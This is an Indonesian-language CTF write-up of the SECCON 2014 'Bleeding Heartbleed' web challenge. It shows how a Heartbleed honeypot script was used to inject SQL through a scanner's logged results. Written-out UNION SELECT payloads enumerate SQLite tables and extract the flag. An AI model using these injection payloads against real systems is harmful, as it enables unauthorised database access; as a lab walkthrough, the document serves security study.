 ```yaml
---
id: 413
title: 'Seccon CTF 2014: Bleeding “Heartbleed” - Web 300 pts'
date: 2014-12-09T10:15:04+00:00
author: abdilahrf
layout: post
guid: http://www.hasnydes.us/?p=413
permalink: /2014/12/bleeding-heartbleed-test-web-300-pts-seccon-ctf/
category: ctf
tags: [SecconCTF,Web Exploitation]
---
```

> <http://bleeding.pwn.seccon.jp/>

website check heartbleed , yang datanya di simpan ke database coba kita scan

> 173.194.65.100:443
> 
>     Connecting...
>     Sending Client Hello...
>     Waiting for Server Hello...
>      ... received message: type = 22, ver = 0302, length = 61
>      ... received message: type = 22, ver = 0302, length = 3852
>      ... received message: type = 22, ver = 0302, length = 331
>      ... received message: type = 22, ver = 0302, length = 4
>     Sending heartbeat request...
>     
>     

<!--more-->

view-source

> <pre><span class="pl-c">&lt;!-- DEBUG: INSERT OK. TIME=1417889356 --&gt;
</span></pre>

INSERT OK berarti masuk ke database, sepertinya ini ada sql injection cara kita inject dengan membuat honeypot vulnerability Heartbleed

gunakan script <a href="packetstormsecurity.com/files/126068/hb_honeypot.pl.txt" target="_blank">packetstormsecurity.com/files/126068/hb_honeypot.pl.txt</a> untuk membuat server anda menjadi vuln heartpbleed ,untuk bisa mengirimkan pesan inject nya jalankan honeypot dan scan ip anda

&nbsp;

> ifconfig
> 
> 120.33.21.66
> 
> perl hb_honeypot.pl
> 
> Scan  120.33.21.66:443 < via website
> 
> <span style="text-decoration: underline;">DATABASE ERROR!!!</span> <tt>near ".": syntax error</tt>
> 
> select time from results where result=&#8217;Connecting&#8230; Sending Client Hello&#8230; Waiting for Server Hello&#8230; &#8230; received message: type = 24, ver = 0301, length = 249 &#8230; received message: type = 24, ver = 0301, length = 249 &#8230; received message: type = 24, ver = 0301, length = 249 &#8230; received message: type = 24, ver = 0301, length = 249 &#8230; received message: type = 22, ver = 0301, length = 1 Sending heartbeat request&#8230; &#8230; received message: type = 24, ver = 0301, length = 249
> 
> Received heartbeat response: 09809\*)(\*)(76&^%&(*&^7657332
> 
> Hi there! Your scan has been logged! Have no fear, this is for research only &#8212; We&#8217;re never gonna give you up, never gonna let you down! WARNING: server returned more data than it should &#8211; server is vulnerable! &#8216;;

Kita coba lagi inject

> perl hb_honeypot.pl  &#8216; UNION SELECT 1337 WHERE 1=1 OR &#8216;1&#8217; LIKE &#8216;
> 
> view source
> 
> <span class="pl-c"><!&#8211; DEBUG: INSERT OK. TIME=1337 &#8211;></span>

untuk mendapatkan list table

> perl hb\_honeypot.pl &#8216; UNION SELECT group\_concat(name) FROM sqlite_master WHERE type=&#8217;table&#8217;;&#8211;
> 
> <pre><span class="pl-c">view source
&lt;!-- DEBUG: INSERT OK. TIME=results,ssFLGss,ttDMYtt --&gt;

</span></pre>

ambil kolom flag dari tabel results

> perl hb_honeypot.pl &#8216; UNION SELECT flag from ssFLGss WHERE 1=1 OR &#8216;1&#8217; LIKE &#8216;
> 
> view source
> 
>     <!-- DEBUG: INSERT OK. TIME=SECCON{IknewIt!SQLiteAgain!!!} -->
>     
>     

Other Source :

https://github.com/ctfs/write-ups/tree/master/seccon-ctf-2014/bleeding-heartbleed-test-web

<http://tasteless.eu/2014/12/seccon-ctf-2014-online-qualifications-web300-writeup/>

<div class='et_post_video'>
</div>